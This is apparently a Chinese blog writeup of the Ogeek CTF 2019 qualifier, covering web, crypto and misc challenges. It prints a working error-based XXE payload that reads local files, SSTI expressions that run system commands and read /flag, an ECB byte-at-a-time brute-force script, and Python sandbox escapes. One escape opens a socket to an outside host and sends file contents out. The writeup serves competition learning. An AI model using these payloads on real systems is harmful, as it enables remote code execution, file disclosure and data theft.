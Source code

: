 ```yaml
---
title: Ogeek CTF Quals 2019 Writeup
categories: CTF
tags:
  - writeup
abbrlink: 45148
date: 2019-08-26 01:38:28
---
```


## 写在之前

周末打了这个比赛,趟大佬的车,混到第六.如果不是我这么菜,有机会第四或第三的.

如此简单的web题都解不了,丢人(捂脸

感谢比赛过程中队内各位大佬给的各种提示.

以下writeup仅是我自己能解的题或参与解的题.

## WEB

### LookAround 

F12查看源码发现一个文件名奇怪的js,功能是定时发送请求.

请求内容比较奇怪,猜测就是考点,xxe了.

随便改了下xml,就发生500报错.

尝试了下常见的payload,猜测逻辑,如果xml合法则无返回,xml异常则500报错.

队内师傅提醒之下,找到关键点

![img](/1.png)

[exploiting-xxe-with-local-dtd-files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

文章里给的payload

![1566745929599](/2.png)

文件不存在,那就找一个linux系统默认存在的,直接去linux全局文件搜索

![1566746070866](/1566746039967.png)

找一个可以用的,报错xxe成功获取flag

最终payload如下

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % condition 'aaa)>
        aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

### render

随便测试了一下,发现[[9*9]]中的内容被执行了输出了49.

搭配题目名字render,SSTI没跑了.

网上搜索发现了几个可用的payload

<https://www.4hou.com/vulnerable/9779.html>

`[[${T(java.lang.System).getenv()}]]`

![1566747041625](/1566747041625.png)

执行命令:

`${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}`

但是没有回显,测试了`nc,curl,wget`都弹不出来.不熟悉java.

然后队内师傅提示,直接读文件.

`[[${new java.io.BufferedReader(new [java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec("cat /flag").getInputStream())).readLine()}]]`

或

`[[${new java.io.BufferedReader(new [java.io.FileReader("/flag")).readLine()}]]`

### Easy Realworld Challenge 

比赛的时候没做出来,卡在FTP读文件,时间上差了一点,有机会第四,还是我太菜了.

题解明天再整

## Crypto

### babycry

常见套路,第一次爆破flag前7位需要手动改一下,懒得写一键脚本了.第七位到最后爆破的脚本如下:

```
from pwn import *
flagkey="1234567890qwertyuiopasdfghjklzxcvbnm{}-_"
flag=''

def conn ():
    global  r
    r = remote("139.9.222.76",19999)
    r.recv()

    #r.sendline("1"*pad)
    return r


def cut_text(text,lenth):
    textArr = re.findall('.{'+str(lenth)+'}', text)
    textArr.append(text[(len(textArr)*lenth):])
    return textArr

def get(conn,s):
	conn.sendline('des '+s)
	return cut_text(conn.recv(),16)[:-1]


def fuck():
	r = conn()
	f = 'flag{c0'
	for k in range(1,5):
		pad = 0

		for j in range(8):
			padding='0'*(8-pad)

			stand = get(r,padding)[k]
			for i in flagkey:
				stand2 = get(r,padding+f+i)[k]

				if stand == stand2:
					pad = pad + 1
					f = f + i
					print f
					break
			
fuck()
#flag{c0ngratul4tions_1_y0uve_chec7ed_1n_ogeek}


```

## MISC

### pybox

绕过思路和ciscn的一样,就是没回显

`__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('sleep 4')`

那就弹,又是`nv,curl,wget`都试一遍,无果

看提示,cut,sleep,那就是时间盲注了

` __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('sleep $(ca'+'t /home/flag|cut -c1|tr f 4)')`

但是tr被过滤了,尝试别的方法替换字符串.

```
__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')("export str=\`tac /home/flag\`;str=${str:0:1};str=${str/f/2} && sleep $str ")  
```

不知道为什么只有通配符能替换,ascii1-256都不行,无果

又是队内大佬提示

```shell
s=__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('socket').__getattribute__('socket')()
s.connect(('111.111.111.111', 11111))
p=__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('popen')('cut -c 1-64 flag')
s.send(p.read())
```

感觉这是非预期解了